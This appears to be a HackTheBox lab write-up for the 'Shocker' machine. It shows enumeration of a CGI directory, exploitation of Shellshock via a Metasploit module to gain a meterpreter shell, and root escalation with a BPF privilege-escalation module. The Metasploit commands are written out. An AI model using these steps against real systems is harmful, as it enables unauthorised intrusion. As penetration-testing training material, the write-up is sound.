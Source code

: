 # HackTheBox Shocker

[Sources](https://github.com/BurntxNoodle/RedTeam/tree/master/HackTheBox%20Writeups/HTB%20-%20Shocker#Sources)

### Enumeration 

Starting of with a standard enumeration scan: ```nmap -sC -sV -oA shocker 10.10.10.56```. Bellow is the output:

![image](https://user-images.githubusercontent.com/41026969/72769401-8d662100-3bc8-11ea-91a9-1633f24b6da5.png)

Port 80 which is used for HTTP is open to us. Checking out what the main page is to see if there's any clues:

![image](https://user-images.githubusercontent.com/41026969/72771202-23507a80-3bce-11ea-8efd-7463d2184f81.png)

We see that the home page is just an image. Next, I decide to enumerate to see if there's any interesting directories. 

The first tools I use is ```gobuster``` which is a CLI tool to bruteforce the websites files/directories. Here are the results:

![image](https://user-images.githubusercontent.com/41026969/72770980-7bd34800-3bcd-11ea-95a8-30e3ce733307.png)

Since gobuster didn't pick anything up, I decide to use dirbuster, which is a similar tool excepted it has a graphical interace to see if it picks up anything. Here are the settings that I used:

![image](https://user-images.githubusercontent.com/41026969/72772490-0b7af580-3bd2-11ea-8b11-6b01c06a3bad.png)

Here's what dirbuster finds:

![image](https://user-images.githubusercontent.com/41026969/72773203-5f86d980-3bd4-11ea-83ac-a88d269447a5.png)

There are a coupe interesting directories that dirbuster finds:

- ```/cgi-bin/```
- ```/server-status/```

##### Why gobuster didn't pick up /cgi-bin/
Because of the way gobuster checks for files/directories, it doesn't add a ```/``` at the end of the file name. So when visiting ```10.10.10.56/cgi-bin```, the page does not exist. However on dirbuster, this is account for so it also tries ```10.10.10.56/cgi-bin/``` which is a valid. This can be confirmed because if you use the wordlist in ```/usr/share/wordlists/dirb/small.txt``` it contains both ```cgi-bin``` and ```cgi-bin/```  in the list of words so it picks it up the ```cgi-bin/```. For gobuster, you can add the ```-f``` flag to append ```/``` at the end.

It looks like dirbuster didn't find any files in each of those directories though. Doing research on the ```[cgi-bin``` directory and reading into [the CGI wiki page](https://en.wikipedia.org/wiki/Common_Gateway_Interface#Using_CGI_scripts) I learned a bit how it works. Basically everytime there's an HTTP call to a script file in the ```address.com/cgi-bin``` directory, instead of sending the file from the local server, the server runs that file locally and then returns the output to the web page. Reading into the security part of the wiki page ```In common with a number of other scripts at the time, this script made use of a function: escape_shell_cmd(). The function was supposed to sanitize its argument, which came from user input and then pass the input to the Unix shell, to be run in the security context of the web server. The script did not correctly sanitize all input and allowed new lines to be passed to the shell, which effectively allowed multiple commands to be run. The results of these commands were then displayed on the web server. If the security context of the web server allowed it, malicious commands could be executed by attackers.```

Doing further research I come across [the Shellshock wiki page](https://en.wikipedia.org/wiki/Shellshock_(software_bug)). This is because one of the attack vectors for Shellshock is CGI. According to the wiki page ```When a web server uses the Common Gateway Interface (CGI) to handle a document request, it copies certain information from the request into the environment variable list and then delegates the request to a handler program. If the handler is a Bash script, or if it executes one for example using the system call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted document request.``` 

With this information I decide to do a new dirbuster scan in that directory:

![image](https://user-images.githubusercontent.com/41026969/72947942-b5cd5700-3d51-11ea-8eef-4259175bf02a.png)

In the picture above, I start the directory/file scanning in the URL: ```http://10.10.10.56/cgi-bin```. And given what is read in the wiki pages, I add some file extensions: python, perl, and bash.

Here are the results of the scan:

![image](https://user-images.githubusercontent.com/41026969/72948083-1f4d6580-3d52-11ea-920b-3a6c7dff329c.png)

This time, we see there's a ```user.sh``` inside the ```cgi-bin``` directory! 

Doing some research I come across [this Rapid7 page](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec) with a metasploit module. 

Here's setting the correct options:

![image](https://user-images.githubusercontent.com/41026969/72995812-8eb16c80-3dc7-11ea-8a03-7d01ef98bd4a.png)

Running the module, we get a meterpreter session! Doing ```getuid``` and ```sysinfo``` outputs the following:

![image](https://user-images.githubusercontent.com/41026969/72996111-1a2afd80-3dc8-11ea-9c72-0b3b55752829.png)

Doing the meterpreter command ```shell``` gives us a local shell to work with. Doing a ```whoami``` check shows we are user ```shelly```. Looking around the computer, eventually I land in ```/home/shelly``` and doing an ```ls -la``` check there reveals the ```user.txt``` flag!

##### Privesc
To get a list of potential exploits that can work against this box, I use metasploit's suggester module: 

```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
```

Running the module we get a few results:

![image](https://user-images.githubusercontent.com/41026969/72999796-e4891300-3dcd-11ea-9910-8f8d35893c59.png)

I try the first module that the box ```appears to be vulnerable``` by: ```linux/local/bpf_sign_extension_priv_esc```.

Setting the correct options:

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/bpf_sign_extension_priv_esc
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > show options

Module options (exploit/linux/local/bpf_sign_extension_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set SESSION 1
SESSION => 1
```

At first, when I run the exploit, I get a ```[*] Exploit completed, but no session was created.```. Looking into the settings I try something different by setting the LHOST (local host) to my HackTheBox address:

```
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set LHOST 10.10.14.48
LHOST => 10.10.14.48
```

Then rerunning the exploit, this time we get a second meterpreter session!

Doing a ```getuid``` in meterpreter or ```whoami``` in the local shell, it shows we have root access:

![image](https://user-images.githubusercontent.com/41026969/73001458-801b8300-3dd0-11ea-8532-369ac5ec5dff.png)

Looking around the box, I come across the root flag in ```/root/root.txt```

### Flags
- user: ```/home/shelly/user.txt```

- root: ```/root/root.txt```

### Sources

- [CGI wiki page](https://en.wikipedia.org/wiki/Common_Gateway_Interface#Using_CGI_scripts)
- [Shellshock wiki page](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
- [mod-CGI bash environment Rapid7 page](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec)
- [Shocker video writeup by IppSec](https://www.youtube.com/watch?v=IBlTdguhgfY&)
